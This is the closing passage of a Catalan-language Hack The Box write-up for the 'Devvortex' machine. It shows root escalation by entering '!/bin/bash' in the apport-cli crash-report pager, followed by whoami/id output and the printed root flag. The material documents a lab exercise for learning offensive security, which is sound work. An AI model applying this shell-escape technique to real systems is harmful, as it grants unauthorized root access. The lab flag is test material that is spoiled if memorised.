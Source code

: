 I ara aquí per ser root hem de posar !/bin/bash/:

```
== ProblemType =================================
Bug
== ProcCpuinfoMinimal =================================
processor : 1
vendor_id : AuthenticAMD
cpu family : 23
model : 49
model name : AMD EPYC 7302P 16-Core Processor
stepping : 0
cpu MHz : 2994.375
cache size : 512 KB
physical id : 2
siblings : 1
!/bin/bash`
```

I ja som root:

```
What would you like to do? Your options are:
 S: Send report (1.4 KB)
 V: View report
 K: Keep report file for sending later or copying to somewhere else
 I: Cancel and ignore future crashes of this program version
 C: Cancel
Please choose (S/V/K/I/C): v
root@devvortex:/home/logan# whoami
root
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
root@devvortex:/home/logan#`
```

I ara ja podem buscar i obtenir la flag de root:

```
root@devvortex:/home/logan# cd /root
root@devvortex:~# ls
root.txt
root@devvortex:~# cat root.txt
b7deb1bbdf0400b72aae04f81ca6a681
root@devvortex:~#
````

I ja haurem acabat la màquina.

![image](https://github.com/PolMuri/Hack-the-box/assets/109922379/4dc0d1d4-86df-4757-b725-d10e52517f51)

